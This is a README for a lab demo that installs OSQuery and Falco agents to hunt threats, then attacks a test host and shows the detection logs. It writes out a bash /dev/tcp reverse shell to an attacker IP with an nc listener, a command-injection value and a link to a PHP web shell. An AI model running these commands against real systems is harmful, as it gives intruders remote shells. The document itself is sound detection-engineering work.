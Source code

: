 # Goals
This demo setup OSQuery and Falco agents on a Linux server to hunt cybersecurity threats. Rules map to MITRE's Attack Framework.

# Prerequisites
- A Linux server running Ubuntu 20.04, installed Ansible and docker

# Steps
## 1. Install OSQuery and Falco agents 
```bash
ansible-playbook install.yaml
```

## 2. Testing
- target host: ip=192.168.3.103, hostname=h3 (installed OSQuery and Falco)
- attacker host: ip=192.168.3.104, hostname=h4

Run exploit code and monitor logs

### 2.1 Create reverse shell
```bash
# attacker
vagrant@h4:~$ nc -nvlp 8080

Listening on 0.0.0.0 8080
Connection received on 192.168.3.103 40466
vagrant@h3:~$ id
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
vagrant@h3:~$


# target
vagrant@h3:~$ bash -i >& /dev/tcp/192.168.3.104/8080 0>&1
```

```bash
tail -f /var/log/osquery/osqueryd.results.log

{"name":"behavioral_reverse_shell","hostIdentifier":"h3","calendarTime":"Mon May  2 06:05:14 2022 UTC","unixTime":1651471514,"epoch":0,"counter":0,"numerics":false,"columns":{"cmdline":"bash -i","cwd":"/home/vagrant","gid":"1000","name":"bash","parent":"14158","parent_cmdline":"-bash","path":"/usr/bin/bash","pid":"29283","remote_address":"192.168.3.104","remote_port":"8080","root":"/","start_time":"1651470912","uid":"1000"},"action":"added"}
```

### 2.2 Exploit DVWA vulnerabilities
```bash
# run DVWA app on the target host
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Access DWVA web and exploit:

***command-injection:***
![](screenshots/dvwa-command-injection.png)

***file-upload:*** 
download yaps.php file from https://github.com/Nickguitar/YAPS
![](screenshots/dvwa-file-upload.png)

```bash
tail -f /var/log/osquery/osqueryd.results.log

{"name":"blacklist_process_events","hostIdentifier":"h3","calendarTime":"Mon May  2 04:52:14 2022 UTC","unixTime":1651467134,"epoch":0,"counter":0,"numerics":false,"columns":{"cid":"3991","cmdline":"ping -c 4","cwd":"/var/www/html/vulnerabilities/exec","duration":"272668","exit_code":"0","gid":"33","ntime":"566756435645000","parent":"28239","path":"/bin/ping","pid":"28240","probe_error":"0","syscall":"exec","tid":"28240","uid":"33"},"action":"added"}
{"name":"blacklist_process_events","hostIdentifier":"h3","calendarTime":"Mon May  2 04:52:14 2022 UTC","unixTime":1651467134,"epoch":0,"counter":0,"numerics":false,"columns":{"cid":"3991","cmdline":"id","cwd":"/var/www/html/vulnerabilities/exec","duration":"229619","exit_code":"0","gid":"33","ntime":"566756437328111","parent":"28239","path":"/usr/bin/id","pid":"28241","probe_error":"0","syscall":"exec","tid":"28241","uid":"33"},"action":"added"}

{"name":"blacklist_socket_events","hostIdentifier":"h3","calendarTime":"Mon May  2 05:40:45 2022 UTC","unixTime":1651470045,"epoch":0,"counter":1,"numerics":false,"columns":{"cid":"3991","duration":"157961","exit_code":"18446744073709551501","family":"2","fd":"11","gid":"33","local_address":"","local_port":"0","ntime":"569684542775889","parent":"29024","path":"/usr/sbin/apache2","pid":"29028","probe_error":"0","protocol":"0","remote_address":"192.168.3.104","remote_port":"8080","syscall":"connect","tid":"29028","type":"1","uid":"33"},"action":"added"}




tail -f /var/log/syslog

May  2 08:19:00 h3 falco: 15:19:00.902174435: Debug Shell spawned by untrusted binary (user=www-data user_loginuid=-1 shell=sh parent=apache2 cmdline=sh -c ping  -c 4 ; id pcmdline=apache2 -k start gparent=apache2 ggparent=<NA> aname[4]=<NA> aname[5]=<NA> aname[6]=<NA> aname[7]=<NA> container_id=2453035f32e7 image=vulnerables/web-dvwa)
```

# References:
Threat Hunting Methodologies:
- https://attack.mitre.org
- https://paraflare.com/attack-lifecycle-detection-of-an-operational-technology-breach/
- https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/

Tools:
- https://osquery.io
- https://falco.org

Rule set:
- https://github.com/palantir/osquery-configuration/
- https://github.com/teoseller/osquery-attck/
- https://github.com/bfuzzy/auditd-attack
